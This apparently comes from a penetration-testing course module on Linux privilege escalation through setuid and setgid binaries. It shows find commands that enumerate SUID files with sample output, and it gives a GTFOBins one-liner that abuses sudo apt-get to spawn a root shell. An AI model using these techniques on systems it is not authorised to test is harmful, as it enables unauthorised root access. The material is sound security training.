 # Setuid Bit

The `Set User ID upon Execution (setuid)` permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The `setuid` bit appears as an `s`.

> find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

    -rwsr-xr-x 1 root root 16728 Sep  1 19:06 /home/htb-student/shared_obj_hijack/payroll
    -rwsr-xr-x 1 root root 16728 Sep  1 22:05 /home/mrb3n/payroll
    -rwSr--r-- 1 root root 0 Aug 31 02:51 /home/cliff.moore/netracer
    -rwsr-xr-x 1 root root 40152 Nov 30  2017 /bin/mount
    -rwsr-xr-x 1 root root 40128 May 17  2017 /bin/su
    -rwsr-xr-x 1 root root 27608 Nov 30  2017 /bin/umount
    -rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
    -rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
    -rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
    -rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
    -rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 14864 Jan 18  2016 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine
    -rwsr-xr-x 1 root root 428240 Jan 18  2018 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 23376 Jan 18  2016 /usr/bin/pkexec
    -rwsr-sr-x 1 root root 240 Feb  1  2016 /usr/bin/facter
    -rwsr-xr-x 1 root root 39904 May 17  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newuidmap
    -rwsr-xr-x 1 root root 49584 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
    -rwsr-xr-x 1 root root 40432 May 17  2017 /usr/bin/chsh
    -rwsr-xr-x 1 root root 32944 May 17  2017 /usr/bin/newgidmap
    -rwsr-xr-x 1 root root 75304 May 17  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 54256 May 17  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 10624 May  9  2018 /usr/bin/vmware-user-suid-wrapper
    -rwsr-xr-x 1 root root 1588768 Aug 31 00:50 /usr/bin/screen-4.5.0
    -rwsr-xr-x 1 root root 94240 Jun  9 14:54 /sbin/mount.nfs

It may be possible to reverse engineer the program with the SETUID bit set, identify a vulnerability, and exploit this to escalate our privileges. Many programs have additional features that can be leveraged to execute commands and, if the `setuid` bit is set on them, these can be used for our purpose.

The Set-Group-ID (setgid) permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command: `find / -uid 0 -perm -6000 -type f 2>/dev/null`. These files can be leveraged in the same manner as `setuid` binaries to escalate privileges.

> find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null

    -rwsr-sr-x 1 root root 85832 Nov 30  2017 /usr/lib/snapd/snap-confine

This <resource> (*https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits*) has more information about the `setuid` and `setgid` bits, including how to set the bits.

# GTFOBins

The <GTFOBins> (*https://gtfobins.github.io/*) project is a curated list of binaries and scripts that can be used by an attacker to bypass security restrictions. Each page details the program's features that can be used to break out of restricted shells, escalate privileges, spawn reverse shell connections, and transfer files. For example, `apt-get` can be used to break out of restricted environments and spawn a shell by adding a Pre-Invoke command:

> sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

# id
    uid=0(root) gid=0(root) groups=0(root)

It is worth familiarizing ourselves with as many GTFOBins as possible to quickly identify misconfigurations when we land on a system that we must escalate our privileges to move further.

